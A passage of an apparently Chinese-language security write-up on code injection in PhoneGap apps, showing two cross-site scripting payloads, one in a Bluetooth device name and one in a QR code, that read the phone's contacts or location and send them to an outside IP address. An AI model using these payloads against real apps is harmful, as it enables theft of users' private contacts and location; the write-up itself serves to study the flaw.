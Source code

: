 这是一个PhoneGap的演示应用程序，它向开发人员展示了如何使用PhoneGap的和其插件。该应用程序包括了所有的内置插件和三个第三方插件，ChildBrowser插件，蓝牙插件， Facebook插件。

该app使用innerHTML来显示蓝牙设备的名称。我们把蓝牙名称改成攻击代码试一下：

```
< img src = x onerror = PhoneGap.exec(function(a) {

    m = '';
    for (i = 0; i < a.length; i++) {
        m += a[i].displayName + '\n';
    }
    alert(m);
    document.write('<img src=http://128.230.213.66:5556?c=' + m + '>');
},
function(e) {},
'Contacts', 'search', [['displayName'], {}]) > 

```

![enter image description here](http://drops.javaweb.org/uploads/images/4a4fdb28f6d674681baef07de6fefa47571d7db7.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/e230f8a8b1fea6afe7ef1d9f537fa2a25f9bd185.jpg)

### 案例2：RewardingYourself应用程序。

扫描二维码的程序，展示使用的innerHTML，我们在二维码当中插入如下代码：

```
< img src = x onerror =

navigator.geolocation.watchPosition(

function(loc) {

    m = 'Latitude: ' + loc.coords.latitude +

    '\n' + 'Longitude: ' + loc.coords.longitude;

    alert(m);

    b = document.createElement('img');

    b.src = 'http: //128.230.213.66:5556?c='+m })> 

```

使用geolocation.watchPosition获取当前位置。

![enter image description here](http://drops.javaweb.org/uploads/images/916da04b58b8acd34dddf982e316214c04e07a4d.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/689e89b62e8dff8f85d355c21d20e71407b1f2ba.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/3a15fb30cef8798f2b405cd4272c4c5ba8323a2d.jpg)